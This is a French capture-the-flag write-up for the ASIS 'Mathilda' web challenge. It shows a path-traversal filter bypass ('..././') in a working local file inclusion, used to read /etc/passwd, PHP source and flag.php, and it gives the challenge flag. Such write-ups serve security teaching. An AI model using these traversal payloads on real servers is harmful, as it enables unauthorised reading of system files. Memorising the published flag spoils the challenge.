


# Mathilda - web

## Désignation

    Mathilda learned many skills from Leon, now she want to use them!

## Solution

On se rend sur l'adresse http://178.62.48.181/ ce qui nous donne :

Il s'agit d'une page assez simple, juste du texte et une image.   
On essaie de voir si un indice est caché dans l'image, mais sans succès.  
On en déduit qu'il s'agit peut-être de trouver un répertoire.  
Après plusieurs test non concluants, on relit le code source et on remarque le `<!-- created by ~rooney -->` .  
On tente donc le lien http://178.62.48.181/~rooney :

On continue les recherches et on tombe sur http://178.62.48.181/~rooney/files/ puis sur http://178.62.48.181/~rooney/?path=rooney :

L'adresse fait penser à une LFI et on tente http://178.62.48.181/~rooney/?path=../../../../etc/passwd mais sans résultat.  
En modifiant la requète avec Burp, on se rend compte que le path est modifié de tel sorte que `.../.` donne `../` .  
On retest donc la LFI avec le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd qui nous donne :

    'rooney:x:1000:1000:,,,:/home/rooney:/bin/false'
    'th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash'

On a donc un nouveau chemin : /home/th1sizveryl0ngus3rn4me .   
On retente le chemin avec le nouveau répertoire : http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me mais rien...en ajoutant index.php, non plus ...  
Après quelques recherches sur internet et un peu de chance, on tombe sur le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php qui nous renvoie un beau Security failed !

Le filtre doit donc être actif aussi sur le index.php qu'on modifie en index.p../hp et on obtient :

    <?php
    require 'flag.php';
    if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']),     'mobile')!==false){
    		if(strpos($_SERVER['HTTP_REFERER'],     'th1sizveryl0ngus3rn4me')!==false){
    					echo $flag;
    						}else
    									echo 'Hot-linking is disabled';
    }else
    		echo 'Invalid Device';
    ?>_

Le fichier flag.php semble intéressant et on essaie donc le lien suivant :
http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp qui nous affiche :

    <?php
    $flag = 'ASIS{I_l0V3_Us3rD1r_Mpdul3!!}';
    ?>

Flag : ASIS{I_l0V3_Us3rD1r_Mpdul3!!}
